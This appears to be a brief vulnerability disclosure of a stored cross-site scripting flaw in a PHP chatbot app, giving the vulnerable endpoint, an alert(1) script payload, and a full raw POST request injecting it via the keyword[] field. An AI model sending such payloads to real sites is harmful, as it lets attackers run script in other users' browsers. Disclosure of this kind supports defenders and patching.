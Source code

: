 # chatbot-app-suggestion-phpoop v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /simple_chat_bot/classes/Master.php?f=save_response

Vulnerability location: /simple_chat_bot/classes/Master.php?f=save_response, keyword[]

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /simple_chat_bot/classes/Master.php?f=save_response HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------268132382818445192602306506330
Content-Length: 1479
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/simple_chat_bot/admin/?page=responses/manage_response&id=7
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="id"

7
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="response"

<p>On this simple ChatBot Application, You can query anything and the system will automatically browse a response that is stored on this site.ï¿½</p><p>The queries fetch a response that has an equivalent keyword.</p><p>Also, the application consists of suggestion keywords to query.</p>
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="status"

1
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="keyword[]"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"

Hi
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"

Hello
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"

Hello There
-----------------------------268132382818445192602306506330
Content-Disposition: form-data; name="suggestion[]"


-----------------------------268132382818445192602306506330--


```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)